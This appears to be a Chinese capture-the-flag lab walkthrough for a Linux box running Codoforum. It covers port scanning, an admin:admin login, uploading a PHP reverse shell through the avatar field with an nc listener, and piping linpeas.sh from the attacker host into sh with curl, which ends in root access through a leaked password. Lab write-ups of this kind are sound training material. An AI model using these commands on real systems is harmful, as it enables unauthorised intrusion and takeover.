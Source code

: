 ```yaml
---
description: Linux - Easy：CODOFORM V.5.1.105
---
```


# ✔️ Codo

## 建立立足点

### 信息枚举

使用Nmap对目标系统进行开放端口扫描，获得2个端口：22和80

```bash
nmap -sC -sV -p- -oA codo 192.168.200.23 --open  
```

<figure><img src="../.gitbook/assets/1 (3).png" alt=""><figcaption></figcaption></figure>

检查80端口上的Web页面：

<figure><img src="../.gitbook/assets/2 (3).png" alt=""><figcaption></figcaption></figure>

尝试枚举80端口上的隐藏文件/目录，并在**/admin**路径上发现登录界面：

```bash
dirsearch -u http://192.168.200.23
```

<figure><img src="../.gitbook/assets/3 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (3).png" alt=""><figcaption></figcaption></figure>

尝试用弱口令<mark style="color:red;">**admin:admin**</mark>登录成功：

<figure><img src="../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

并且发现目标正在使用的是：CODOFORM V.5.1.105

<figure><img src="../.gitbook/assets/6 (3).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

查找相关漏洞发现其有一个远程命令执行的漏洞可以利用：

```bash
searchsploit codoforum 5.1
searchsploit -m 50978.py .
```

<figure><img src="../.gitbook/assets/7 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (4).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

根据该脚本的使用方法所构造的命令确认无误后，发现始终无法利用成功。但仍然从该脚本中获取到了重要的信息：**可在admin设置中上传脚本**

<figure><img src="../.gitbook/assets/9 (3).png" alt=""><figcaption></figcaption></figure>

决定直接在admin后台中上传反弹shell来get shell。

* 先在全局设置中的可上传文件类型中**添加.php**，以方便后续上传**php-reverse-shell.php脚本**

<figure><img src="../.gitbook/assets/10 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/11 (2).png" alt=""><figcaption></figcaption></figure>

* 然后准备好php-reverse-shell.php脚本，修改好反弹shell监听的主机IP和端口号，并在Kali本机监听好端口：

```bash
// Kali本机监听
nc -lvnp 1234
```

<figure><img src="../.gitbook/assets/12 (2).png" alt=""><figcaption></figcaption></figure>

* 在用户->管理用户->admin的设置页面中，找到头像上传项，并将准备好的反弹shell脚本上传后，点save键触发脚本：

<figure><img src="../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

成功获得反弹shell，并获得local.txt：

<figure><img src="../.gitbook/assets/15 (2) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

上传LinPEAS.sh脚本，对目标进行本地信息收集，已发现可利用的提权漏洞：

```bash
// Kali本机准备好linpeas.sh脚本，并在所属目录下开启服务器
python3 -m http.server
// 在目标系统中，下载linpeas.sh到本地并且直接执行
curl -L 192.168.45.172:8000/linpeas.sh |sh
```

<figure><img src="../.gitbook/assets/16 (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

阅读linpeas.sh脚本的输出结果后，发现一个密码：<mark style="color:red;">**FatPanda123**</mark>

<figure><img src="../.gitbook/assets/18 (2).png" alt=""><figcaption></figcaption></figure>

并且已知当前系统上有两个用户账户：offsec和root，分别尝试后发现它是root账户的密码。

### ROOT

<figure><img src="../.gitbook/assets/19 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/20 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
